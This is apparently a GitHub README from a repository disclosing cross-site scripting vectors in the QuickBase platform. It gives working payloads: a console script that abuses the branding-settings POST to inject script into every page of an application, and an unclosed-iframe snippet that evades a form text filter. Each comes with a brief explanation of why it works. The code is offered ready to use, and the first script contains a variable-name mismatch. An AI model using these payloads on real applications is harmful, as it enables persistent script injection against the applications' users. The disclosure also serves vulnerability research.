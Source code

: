 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!*

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

```javascript
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + script + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

##Form Text Element Injection
Need to run some custom JavaScript on a particular QuickBase form? No problem!

#####How does it work?
Paste the snippet below into a QuickBase form text element and you're all set.

```html
<iframe src="javascript: alert('HELLO!')" style="display: none"
```

#####Why does it work?
This one works for a couple of reasons:
- Omitting the closing tag on the iframe element allows us to skirt the regex that QuickBase is presumably using to filter out unwanted text. 
- Modern day rendering engines make an attempt to fix mistakes like unclosed tags.
